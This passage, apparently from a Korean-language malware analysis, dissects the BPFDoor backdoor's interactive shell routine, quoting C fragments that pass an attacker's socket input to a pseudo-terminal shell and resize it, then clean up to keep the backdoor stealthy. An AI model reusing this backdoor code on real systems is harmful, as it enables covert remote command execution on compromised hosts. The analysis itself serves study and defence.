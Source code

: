             if (rlen > 5) rlen = 5;
            memcpy(wb, p, rlen);
            if (rlen < 5) {
                ret = cread(sock, &wb[rlen], 5 - rlen);
            }

            ws.ws_xpixel = ws.ws_ypixel = 0;
            ws.ws_col = (wb[1] << 8) + wb[2];
            ws.ws_row = (wb[3] << 8) + wb[4];
            ioctl(pty, TIOCSWINSZ, &ws);
            kill(0, SIGWINCH);

            ret = write(pty, buf, (long) p - (long) buf);
            rlen = ((long) buf + count) - ((long)p+5);
            if (rlen > 0) ret = write(pty, p+5, rlen);
        }
        ```

        - `ECHAR`을 찾았을 경우에, 윈도우 크기 변경 로직을 처리한다.
        - 5 바이트 크기의 `wb` 변수를 선언함. 이는 `ECHAR`(1 바이트)와 윈도우 크기 정보 (4 바이트: 가로 2 바이트, 세로 2 바이트)를 저장하는 데 사용된다.
        - `ECHAR`이 발견된 위치 `p`부터 `buf`의 끝까지 남은 바이트 수를 계산하여 `rlen`에 저장하고, 윈도우 크기 정보는 총 5 바이트이기에 `rlen`이 5보다 크더라도 5로 제한하여 `p` 값을 `wb` 변수에 저장한다.
        - 이후에 `wb`로부터 윈도우 크기를 파싱하여 `winsize ws`에 저장하고, `ioctl()` 호출을 통해 `pty`의 윈도우 크기를 변경하고, `kill()` 호출을 통해 터미널 크기가 변경되었음을 알려 쉘이 화면출력을 재조정하도록 한다.
        - `p - buf`를 계산하여 `ECHAR`이 발견되기 이전에 수신된 데이터를 `pty`에 전달하여 쉘의 표준 입력으로 전달되어 실행되도록 한다.
        - 이후에 `p + 5`를 계산하여 윈도우 크기 정보 이후에 남아있는데이터를 `pty`에 전달하여 쉘의 표준 입력으로 전달되어 실행되도록 한다.

        ```c
        else
            if (write(pty, d, count) <= 0) break;
        ```

        - `ECHAR`을 찾지 못했을 경우에, 수신된 데이터 `buf` 전체를 `pty`에 그대로 쓴다. 이는 공격자의 입력을 PTY 마스터인 `pty`에게 전달하여 쉘의 표준 입력으로 전달되어 실행된다.

        - 이 구문이 끝나면 공격자의 입력이 수신된 소켓으로부터 데이터를 받아 `pty`에 전달함으로써 공격자의 명령을 쉘이 실행된다. 쉘의 결과는 `FD_ISSET(pty, &fds)` 부분에서 처리되어 공격자에게 전달된다.

7. **while loop 종료**

    ```c
    close(sock);
    close(pty);
    waitpid(subshell, NULL, 0);
    vhangup();
    exit(0);
    ```

    - 열었던 소켓과 PTY 마스터의 FD를 닫고, 이전에 생성한 자식 프로세스(`subshell`, 쉘을 실행하고 있는 프로세스)가 종료될 때까지 대기한다. 자식 프로세스가 종료되면 부모 프로세스가 이를 깔끔하게 자원을 정리한다.
    - `vhangup()` 호출을 통해 현재 프로세스의 제어 터미널과의 연결을 끊고, 해당 터미널에 대한 모든 FD를 닫는다. PTY 슬레이드가 쉘의 제어 터미널 역할을 했기에 이 연결을 끊어, 백도어 프로세스가 종료된 후에도 터미널 장치가 불완전한 상태로 남아있지 않도록 한다. 터미널 자원을 깨끗하게 정리하는 단계이다.
    - exit(0) 호출을 통해 shell 함수를 호출한 부모(`packet_loop` 혹은 `getshell`)에게 돌아가지 않고 프로세스 자체를 완전히 종료한다.
    - BPFDoor가 시스템에 남길 수 있는 흔적이나 불안정성을 최소화하여 사용했던 시스템 리소스를 정상적으로 해제하여 백도어의 은밀성과 안정성을 높인다.

<br>
